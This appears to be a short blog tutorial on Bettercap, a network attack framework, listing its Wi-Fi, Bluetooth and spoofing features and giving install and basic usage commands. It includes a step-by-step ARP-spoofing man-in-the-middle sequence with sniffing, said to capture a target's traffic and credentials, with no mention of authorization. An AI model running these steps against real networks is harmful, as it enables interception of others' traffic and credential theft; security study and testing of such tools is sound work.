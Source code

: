 ```yaml
---
title: "Bettercap"
date: 2022-07-02T18:16:26Z
draft: false
---
```


## Bettercap Framework


Bettercap is a powerfull, easily extensible and portable framework written in Go which aims to offer to security researches, redteamers and reverse engineers an easy to use, all-in-one solution with all the features they might possibly need for performing reconnaissance and attacking WiFi networks, Bluetooth Low Energy devices, wireless HID devices and IPv4/IPv6 networks.

![bettercap_pic](https://www.bettercap.org/logo.png)

                   
 ## Main Features

 * **WiFi** networks scanning, [deauthentication attack](https://www.evilsocket.net/2018/07/28/Project-PITA-Writeup-build-a-mini-mass-deauther-using-bettercap-and-a-Raspberry-Pi-Zero-W/), [clientless PMKID association attack](https://www.evilsocket.net/2019/02/13/Pwning-WiFi-networks-with-bettercap-and-the-PMKID-client-less-attack/) and automatic WPA/WPA2 client handshakes capture.
* **Bluetooth Low Energy** devices scanning, characteristics enumeration, reading and writing.
* 2.4Ghz wireless devices scanning and **MouseJacking** attacks with over-the-air HID frames injection (with DuckyScript support).
* Passive and active IP network hosts probing and recon.
* **ARP, DNS, NDP and DHCPv6 spoofers** for MITM attacks on IPv4 and IPv6 based networks.
* **Proxies at packet level, TCP level and HTTP/HTTPS** application level fully scriptable with easy to implement **javascript plugins**.
* A powerful **network sniffer** for **credentials harvesting** which can also be used as a **network protocol fuzzer**.
* A very fast port scanner.
* A powerful [REST API](https://www.bettercap.org/modules/core/api.rest/) with support for asynchronous events notification on websocket to orchestrate your attacks easily.
* **A very convenient [web UI](https://www.bettercap.org/usage/#web-ui).**


Get More infomation on their official website [More!](https://www.bettercap.org/modules/)


## Installation

To install bettercap use the following commands:

~ Arch

`sudo pacman -S bettercap`

~ Kali

` sudo apt install bettercap `

~ Others use their official repository

`https://github.com/bettercap/bettercap`


## Basic stuffs


First fireup you bettercap on terminal

`sudo bettercap`

![bettercap_start](btr_start.png)


<br>
Search devices on your network

`net.probe on`

`net.show`

  
<br>
You can perform MITM attack also 
Example

1. `set arp.spoof.fullduplex true`

2. `set arp.spoof.targets <target ip>`

3. `arp.spoof on`

4. `net.sniff on`


Now you will get all the data where the target visits. including the credentials.
<br>


#**We can use web view also**

   1. First install ui

 `ui.update`

   2. Then 

 `https-ui`

 Now you will get a link visit that page and explore.

        
**Thanks for reading.**

